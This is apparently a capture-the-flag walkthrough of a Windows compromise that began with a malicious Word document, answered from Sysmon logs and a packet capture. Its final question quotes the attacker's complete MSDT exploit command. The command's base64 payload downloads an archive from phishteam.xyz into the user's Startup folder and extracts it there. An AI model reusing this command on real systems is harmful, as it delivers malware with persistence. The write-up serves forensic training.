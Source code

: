 1. **What is the SHA256 hash of the sysmon.evtx file?**
```powershell
Get-FileHash -Algorithm SHA256 .\sysmon.evtx
```
--> REDACTED

2. **What is the SHA256 hash of the windows.evtx file?**
```powershell
Get-FileHash -Algorithm SHA256 .\windows.evtx
```
--> REDACTED

<br/>

### Initial Access - Malicious Document
Here we will start the actual investigation of the events that lead to a compromise.

1. **The user of this machine was compromised by a malicious document. What is the file name of the document?**
   Open the sysmon.csv file with the TimelineViewer, since we know that the malicious file has a `.doc` extension we can search for that keyword and quickly spot the name of the file:
   --> REDACTED

2. **What is the name of the compromised user and machine?**
   `Format: username-machine name`
   Found the file name we can just find the corresponding value in the same row.
   --> REDACTED

3. **What is the PID of the Microsoft Word process that opened the malicious document?**
   Still with the same search results we can look a couple lines above and find that WINWORD.exe has been started, a bit on the left we can seed the process PID.
   --> REDACTED

4. **Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?**
   To find this answer i decided to open the network capture file with Wireshark and filter:
```
tcp contains ".doc"
```
   --> REDACTED

5. **What is the base64 encoded string in the malicious payload executed by the document?**
   In the TimelineViewer we can search for the keyword `base64`, and in the ExecutableInfo column we can see a PowerShell script with the following encoded data, we can then deconde it with PowerShell or using a tool like CyberChef in our browser.
   --> ==JGFwc...............REDACTED..............aXA7Cg====
   All this decodes to:
```powershell
$app=[Environment]::GetFolderPath('ApplicationData');cd ......REDACTED....... rm update.zip;
```

6. **What is the CVE number of the exploit used by the attacker to achieve a remote code execution?** 
   `Format: XXXX-XXXXX`
   Let's give a look again at the full PS script, now that we also know the decoded part, looks like that it aims to take advantage of MSDT to execute the script.
   This vulnerability leads to RCE with the privileges of the calling application.
```powershell
C:\Windows\SysWOW64\msdt.exe ms-msdt:/id PCWDiagnostic /skip force /param "IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe"
```
   --> REDACTED
